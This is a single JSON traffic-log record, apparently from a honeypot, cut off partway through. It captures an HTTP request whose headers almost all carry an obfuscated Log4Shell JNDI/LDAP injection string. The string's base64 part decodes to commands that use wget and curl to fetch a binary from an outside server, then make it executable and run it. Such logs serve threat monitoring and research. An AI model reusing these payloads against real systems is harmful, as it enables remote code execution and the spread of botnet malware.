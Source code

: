 ````json
{"time":"2024-02-03T00:15:14.821579","headers":{"accept":"application/json, text/plain, */*","x-api-version":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","user-agent":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","referer":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","cookie":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","authentication":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","bearer":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","cf-connecting_ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","x-forwarded-for":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","x-real-ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","x-client-ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","originating-ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","host":"54.67.87.80:8080","connection":"close"},"sip":"95.214.53.99","dip":"54.67.87.80","method":"GET","url":"/","data":null,"useragent":["t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')"],"version":"HTTP/1.1","response_id":{"comment":null,"headers":{"Server":"Apache/3.2.3","Access-Control-Allow-Origin":"*","content-type":"text/plain"},"status_code":200},"signature_id":{"max_score":7
````